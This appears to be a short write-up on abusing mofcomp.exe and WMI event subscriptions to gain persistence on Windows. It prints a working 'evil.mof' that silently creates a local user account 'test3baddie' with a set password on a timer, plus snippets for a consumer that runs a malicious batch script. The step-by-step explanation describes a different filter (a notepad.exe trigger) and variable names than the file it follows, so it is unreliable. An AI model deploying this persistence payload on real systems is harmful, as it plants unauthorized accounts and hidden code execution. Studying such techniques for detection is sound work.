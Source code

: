- Adversaries can misuse mofcomp.exe to load malicious MOF files, which in turn alter the WMI repository.
- When coupled with event subscriptions, these alterations can be crafted to trigger malicious activities on specific system events.
- An attacker might use a MOF file to define a malicious event subscription. Once this MOF file is compiled using mofcomp.exe, the malicious subscription would be active:

#### Contents of evil.mof
```c++
#PRAGMA NAMESPACE ("\\\\.\\root\\subscription")
#PRAGMA AUTORECOVER
instance of __EventFilter as $EventFilter
{
    Name = "team4_filter_test3";
    EventNamespace = "root\\CimV2";
    QueryLanguage = "WQL";
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60"
            " WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
            " AND TargetInstance.SystemUpTime >= 240"
            " AND TargetInstance.SystemUpTime < 325";
};

instance of CommandLineEventConsumer as $Consumer
{
    Name = "team4_consumer_test3";
    RunInteractively = false;
    CommandLineTemplate = "cmd /c net user test3baddie password /add";
};

instance of __FilterToConsumerBinding
{
    Filter = $EventFilter;
    Consumer = $Consumer;    
};
```

1. **Event Filter Creation:**
```
MOFCopy code
Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'notepad.exe'";
QueryLanguage = "WQL";
EventNamespace = "root\\cimv2";
```
 - This portion defines an event filter with a WQL (WMI Query Language) query that monitors for the creation of a process named **`notepad.exe`**. The query will check every 5 seconds (**`WITHIN 5`**).
2. **Event Consumer Creation:**
```
MOFCopy code
instance of CommandLineEventConsumer as $Consumer {
Name = "evilConsumer";
CommandLineTemplate = "C:\\Path\\To\\MaliciousScript.bat";
};
```
- This portion defines an event consumer named "evilConsumer" that will execute the **`MaliciousScript.bat`** when triggered.
3. **Binding the Event Filter to the Event Consumer:**
```
MOFCopy code
instance of __FilterToConsumerBinding {
Filter = $Filter;
Consumer = $Consumer;
};
```
- This portion creates a binding between the event filter and the event consumer.